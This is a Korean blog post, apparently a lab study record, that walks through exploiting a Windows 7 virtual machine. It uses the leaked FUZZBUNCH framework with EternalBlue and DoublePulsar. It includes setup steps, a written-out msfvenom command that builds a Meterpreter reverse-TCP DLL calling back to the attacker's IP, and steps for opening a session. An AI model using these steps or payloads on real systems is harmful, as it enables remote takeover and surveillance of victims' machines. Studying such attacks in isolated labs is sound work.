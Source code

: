 ```yaml
---
layout: post
cover: 'assets/images/cover6.jpg'
title:  FUZZBUNCH를 사용한 해킹
date:   2017-01-01 01:01:01
tags: fiction
subclass: 'post tag-fiction'
categories: 'pjya0321'
navigation: True
logo: 'assets/images/ghost.png'
---
```



## 이터널블루와 더블풀자를 사용한 해킹
-----

해당 글은 가상환경 에서 실행했습니다.  
실제 환경에서 악용하면 나빠요 내책임아니에용  

쉐도우 프로커가 유출한 FUZZBUNCH 공부 기록  

윈도우XP 에 설정했다.  

필요한 준비물은  

https://github.com/misterch0c/shadowbroker  
쉐도우 브로커 자료 깃허브  
https://www.python.org/download/releases/2.6.6/  
파이썬 2.6  
https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/  
Pywin32 2.6버전  

요로케 3개  
왜 파이썬 2.6을 사용하는지는 잘모르지만 윈10에 2.6깔기 싫어서 가상에다 했다.  

그리고 환경변수 Path에 파이썬 경로 설정해준다.  

설정은 끝났다.  


cmd창에서 shadowbroker-master\windows 경로에 있는 fb.py 를 실행시킨다.  
실행시키기 전에 windows 경로에 listeningposts라는 폴더를 하나 생성해준다.  


![1](assets/postimage/Fuzz1.png)
fb.py를 실행하면 이런 화면이 보이고 순서대로 입력해준다  

타겟아이피 입력  
콜백아이피 입력(공격자 아이피)  
리다이렉션 사용은 알아서 (NO로 했음)  
로그를 기록할 디렉토리  

![2](assets/postimage/Fuzz2.png)

그리고  
프로젝트 인덱스는 대충 숫자 설정해주고  
프로젝트 이름도 설정 해주고   
로그 기록할껀지 말껀지 설정해주면  

퍼즈번치로 들어와짐  

use 명령어 입력하면 모듈들이 나온다  

![3](assets/postimage/Fuzz3.png)

use Eternalblue 을 입력하면 이터널블루가 실행된다.  

다양한 설정들 할꺼냐 안할꺼냐 하는데 그냥 디폴트값 계속 할꺼라서 엔터 눌러주면됨  
445포트는 SMB포트임  
중간에 Mode는 1번 해야 퍼즈번치사용함  

![4](assets/postimage/Fuzz4.png)

방화벽이 켜져있으면 위같은 화면이 나온다.  

![5](assets/postimage/Fuzz5.png)

타겟 을 윈7가상으로 바꾸고 방화벽을 내리고 다시 실행했다  
이번엔 이터널블루 석세스가 뜬다.  

![6](assets/postimage/Fuzz6.png)


칼리에서  

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.254.129 lport=4444 -f dll -o /root/Desktop/kangol.dll  

명령어를 입력해서 악성 dll을 생성한다.  
그리고 그걸 공격하던 xp로 가져온다.  

![7](assets/postimage/Fuzz7.png)

핸들러 하나 설정해준다. 위 dll악성코드와 동일한설정으로 한다.  

![8](assets/postimage/Fuzz8.png)

그리고 메타스플로잇으로 방금만든 핸들러를 실행시켜준다  

![9](assets/postimage/Fuzz9.png)

다시 공격하던 XP로 돌아가서 use Doublepulsar 명령어를 입력해서 더블풀자를 실행한다. 

![10](assets/postimage/Fuzz10.png)

설정들을 디폴트로 해주다가  

중간에 펑션에서 우리가 사용할 악성코드는 DLL이기 때문에 2번 dll을 설정해준다.  
그리고 DLL페이로드 경로는 생성한 악성 DLL의 경로를 넣어준다.  

프로세스 네임을 디폴트값으로 해주면 윈7을 해킹할 때 금방 꺼지기 때문에  
explorer.exe로 설정한다.  

설정은 완료하면 더블풀자 석시드~ 나온다  

![11](assets/postimage/Fuzz11.png)

다시 칼리리눅스로 돌아가서 인터프리터 세션이 하나 실행됬다.  

![12](assets/postimage/Fuzz12.png)

리버싱하던 윈7이라 컴이름이 리버스엔지니어링으로 나온다 ㅇㅅㅇ  

![13](assets/postimage/Fuzz13.png)

sessions -i 1  
을 입력한다.  

그리고 이런저런 명령어를 처보면 해킹이 됬다는것을 알 수 있다.  
![14](assets/postimage/Fuzz14.png)

윈도우7의 바탕화면을 스크린샷 한 모습이다.  
끝  